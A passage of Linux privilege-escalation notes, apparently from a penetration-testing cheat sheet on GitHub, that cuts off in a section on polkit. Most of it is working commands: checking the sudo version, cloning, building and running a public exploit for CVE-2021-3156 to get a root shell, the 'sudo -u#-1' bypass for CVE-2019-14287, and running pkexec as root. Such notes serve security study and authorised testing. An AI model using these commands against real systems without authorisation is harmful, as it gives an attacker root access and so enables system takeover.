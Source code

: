     sudo -V | head -n1
    # check sudo version

    # a recent sudo vulnerability is CVE-2021-3156

    git clone https://github.com/blasty/CVE-2021-3156.git
    cd CVE-2021-3156
    make

    ./sudo-hax-me-a-sandwich
    # shows available target options

    # for Ubuntu 20.04.1, sudo 1.8.31
    ./sudo-hax-me-a-sandwich 1
    # we get root shell

    # there is an older sudo vulnerability CVE-2019-14287
    # for all versions below 1.8.28

    # it needs sudoers file to allow an user to execute a specific command
    # '(ALL) /usr/bin/id'
    sudo -l

    # exploit
    sudo -u#-1 id
    ```

* Polkit:

    ```sh
    # polkit has a 'pkexec' utility, which can run a program with rights of another user
    pkexec -u root id
    # executes 'id' command as root
